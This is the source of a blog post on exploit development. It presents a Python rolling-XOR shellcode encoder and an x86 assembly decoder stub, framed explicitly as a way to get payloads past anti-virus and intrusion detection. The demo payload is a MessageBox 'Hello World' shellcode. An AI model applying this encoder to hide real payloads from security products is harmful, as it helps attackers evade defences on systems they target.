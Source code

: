 ```yaml
---
layout: post
title: Custom Shellcode Encoder/Decoder (Rolling XOR)
---
```


Lets assume, you're in middle of a penetration test and were trying to gain access to a machine with Anti-Virus installed. Unfortunatuly, on every attempt you made AV was able to identify and block you from excuting the payload making you drive crazy and frustrating...

Besides the fact that most of the well known encoders are been detected by modern AV and IDS products. In such scenario using of custom encoders would be handy.

<div class="message">
In this article, I'd be creating a custom encoding scheme based on simple XOR Operations called Rolling XOR. this technique could be helful in evading Anti-Virus and Intrusion Detection Systems(IDS) where necessary. 
</div>

----

<strong>What is Rolling XOR Encoding Scheme..? </strong>

This encoding scheme basically uses a radomly generated key and performs the XOR operation on the first byte in the given array and uses the result as the input(new XOR key) to perform XOR operation with the next consecutive byte and so on.


#### Rolling XOR Python Encoder

1. Generates a random byte and use it as the base/key to perform the XOR operations.
2. Places the generated XOR key as first byte in the new array "xorout_f1/f2".
3. Performs XOR between the first byte in array "xorout_f1/f2" and first byte in "code" variable and append result to new array "xorout_f1/f2"
4. This basically takes the result of previous XOR operation as the input(byte) and performs XOR operation with the next byte and same happens with all other bytes.
5. Continues the XOR operation till the last byte in "code" variable and final result will be saved in new array "xorout_f1/f2".

{% highlight python %}

#Author: Greycel
#Website: https://greycel.github.io
#!/usr/bin/python

import os
import sys
import random

code = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24\x2C\x57\x68\x72\x6c\x64\x2e\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8B\xDC\x57\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24\x40\xFF\x54\x24\x40\x57\xFF\xD0")

xorout_f1 = [] 
xorout_f2 = [] 
rand_key = random.randint(1,255)
xorout_f1.append(rand_key)
xorout_f2.append(rand_key)
print "\n[*] Random XOR key used: " '0x%02x' %rand_key + " " + str(xorout_f1)

for i in range(0, len(code)):  
    j = ord(code[i]) ^ xorout_f1[i]
    k = ord(code[i]) ^ xorout_f2[i]
    xorout_f1.append(j)
    xorout_f2.append(k)
xorout_f1 = (",".join("0x%02x" %c for c in xorout_f1))
xorout_f2 = ("".join("\\x%02x" %c for c in xorout_f2))

print "==================================="
print "Total Length: " + str(len(xorout_f2)/4) + "bytes"
print "\n[*] Rolling Xor Output F1: \n%s "  %xorout_f1
print "\n[*] Rolling Xor Output F2: \n%s" %xorout_f2
{% endhighlight %}
<img src="{{ site.baseurl }}/public/rollingXOR_01.jpg">

----


### Decoder Stub

Following is our decoder stub which helps us to decode the encoded shellcode. Here we will be using JMP-CALL-POP technique, to get to our encoded shellcode and thereafter we decode the shellcode back to original at runtime and execute it.


{% highlight python %}
; Author:   Greycel
; Website:  https://greycel.github.io 
; This decodes the encoded Rolling XOR scheme back to its original.
; To avoid NULL bytes, update the Counter instructions "MOV CL, len", 
;  "DEC CL", "CMP CL,DL" as per the length of code variable .


global _start

section .text
_start:
        jmp call_code

decoder:                   ;Start of XOR Operation
        POP ESI            ;Pointer to Shellcode
        PUSH ESI           ;Save pointer for later use
        MOV EDI,ESI        ;Copy pointer address in EDI
        XOR ECX,ECX        ;Zeroout the registers ECX, EDX
        MOV EDX,ECX
        MOV CL,len         ;Setup counter (Total Length)
loop1:
        MOV AL,[ESI]       ;Take the first byte of shellcode
        MOV BL,[ESI+1]     ;Take the second byte of shellcode
        XOR AL,BL          ;Perform XOR and save result in AL
        MOV [EDI],AL       ;Replace the first bytes of EDI with the result
        INC ESI            ;Increment ESI and EDI
        INC EDI
        DEC CL                ;Decrement the Counter
        CMP CL,DL             ;Check for condition
        JNZ loop1             ;Jump to loop1 if condition has not met
        mov byte[ESI-1],0x90  ;Replace the last trail byte with NOP
        JMP code


call_code:
        call decoder
        code: db 0xaf,0x53,0x60,0xb2,0x00,0x30,0x54,0xab,0x99,0xc3,0x48,0x1a,0x16,0x9d,0xcf,0xdb,0x50,0x22,0x0a,0x39,0xf0
        
[.....]

        0xf4,0xf7,0x9f,0xcf,0xbd,0xd2,0xb1,0xd9,0x9c,0xe4,0x8d,0xf9,0xad,0x52,0x26,0x02,0x42,0xbd,0xe9,0xcd,0x8d,0xda,0x25,0xf5
        len:    equ $-code
{% endhighlight %}


Having the above decoder stub ready, with the help of "nasm" compile the assembly code and generate the corresponding object file. Then use the "Objdump" to extract the decoding stub along with encoded shellcode appended to it. For commands to compile and extract shellcode <a href="/2017/04/15/Handy-Commands-ExpDev/">Check</a>.

<img src="{{ site.baseurl }}/public/rollingXOR_decode_stub_out.jpg">

----



### Executing the Shellcode on Windows

For POC purpose, I've used the encoded message box shellcode which would eventually gets decoded at runtime with our decoded stub and executes the Hello World Message Box Popup. Following is our actual decoder stub in debugger without the encoded shellcode

<img src="{{ site.baseurl }}/public/Decoder_Stub_in_DBG.jpg">


Encoded shellcode within debugger. As per the decoder stub instruction "POP ESI" will pop the address (0x00446028) of encoded shellcode into "ESI" register, which is where the encoded shellcode begins.
<img src="{{ site.baseurl }}/public/Encoded_Shellcode_in_DBG.jpg">


By the time the decoder stub completes its execution we will have our actual shellcode ready to be executed from address (0x00446028) which is the beginning of shellcode and continues to execute our payload popping the "Hello World" message box.
<img src="{{ site.baseurl }}/public/Decoded_Shellcode_in_DBG.jpg">


<img src="{{ site.baseurl }}/public/Shellcode_execution_in_DBG.jpg">


